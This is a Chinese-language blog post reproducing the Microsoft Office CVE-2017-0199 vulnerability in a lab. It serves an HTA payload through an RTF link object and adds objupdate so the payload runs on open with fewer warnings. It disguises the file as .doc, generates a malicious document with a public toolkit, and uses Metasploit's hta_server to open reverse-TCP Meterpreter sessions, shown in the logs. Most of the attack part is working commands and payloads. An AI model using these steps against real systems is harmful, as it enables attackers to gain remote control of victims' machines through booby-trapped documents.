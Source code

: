 ```yaml
---
title: "Office CVE-2017-0199 复现"
date: 2019-07-31T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


漏洞原理移步 [绿盟](http://blog.nsfocus.net/microsoft-office-ole2link-exploits-technology-analysis/).

环境 Ubuntu 16.04 for WSL, Windows 7, Office 2010.

<!--more-->

## 复现过程

搭建 Apache 服务器.

```
sudo apt install apache2 php
```

编辑 `/etc/apache2/apache2.conf`, 添加以下内容.

```
<Directory /var/www/html/>
    AllowOverride All
</Directory>
```

重启 Apache.

```
sudo service apache2 restart
```

在网站目录下创建 .htaccess 文件, 内容如下.

```
AddType application/rtf .rtf
```

同目录下创建 test.rtf 作为 Payload.

```
test
<script>
var ws = new ActiveXObject("wscript.shell");
ws.Run("%SystemRoot%\\system32\\calc.exe");
window.close();
</script>
```

创建任意文档(注意要在未打补丁的环境下创建), 添加对象.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731180814.png)

另存为 rtf 格式.

更改 .htaccess 为如下内容.

```
AddType application/hta .rtf
```

清除 IE 缓存, 重新打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731181725.png)

点击 "是".

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731181454.png)

复现成功.

但这里就有三个问题: 1. calc 被执行两次 2. 两个警告对话框 3. 文档是 rtf 格式.

第一个问题在我这无法解决, 那么如何让用户去点击按钮, 而且是在日常中不是很常见的 rtf 文档里呢?

## 改进载荷

关于第一个问题, Payload 执行两次一般来说并没有什么太大的影响 (至少对我来说).

下面解决第二个问题.

用编辑器打开 rtf 文档, 找到以下字符串.

```
\object\objautlink\rsltpict
```

修改为.

```
\object\objautlink\objupdate\rsltpict
```

这里我们添加了 objupdate 参数, 它将使文档被打开时自动更新文档中对象的内容, 也就是自动去请求 Payload.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731182436.png)

再次打开后就会自动执行 calc 命令, 而且你会发现第二个警告框也没有了 :)

对于第三个问题, 添加的 objupdate 参数是 rtf 的特性, docx 不能兼容, 但是当文件名以 .doc 结尾的时候却能够成功打开.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190731182744.png)

问题解决.

## 武器化

[bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)

生成恶意文档.

```
cve-2017-0199-toolkit.py -M gen -t rtf -w sales.rtf -u http://192.168.1.1/test.hta
```

这里对 Payload 的后缀没有限制, 只要返回头中存在 `Content-Type: application/hta` 即可.

例如 PHP.

```
<?php @header("Content-Type: application/hta");?>
test
<script>
var a = new ActiveXObject("wscript.shell");
a.Run("%SystemRoot%\\system32\\calc.exe");
window.close();
</script>
```

此外 toolkit 中还有启动服务器的选项, 不过我更喜欢自己构造 Payload :)

使用 Metasploit 作为 hta 服务器 (Cobalt Strike Empire 同理).

```
use exploit/windows/misc/hta_server
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
run -j
```

下面只需要打开文档.

```
[*] 192.168.1.102    hta_server - Delivering Payload
[*] Sending stage (179779 bytes) to 192.168.1.102
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.102:49183) at 2019-07-31 17:35:53 +0800
[*] Sending stage (179779 bytes) to 192.168.1.102
[*] Meterpreter session 2 opened (192.168.1.1:4444 -> 192.168.1.102:49184) at 2019-07-31 17:35:54 +0800
```

成功.

## 利用失败

如果你利用失败了, 很大可能是系统默认禁用了通过 hta 方式执行 ActiveX, 这也是这个漏洞为什么那么鸡肋的原因.

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}]
"Compatibility Flags"=dword:00000000
```

另存为 allow.reg, 然后双击合并.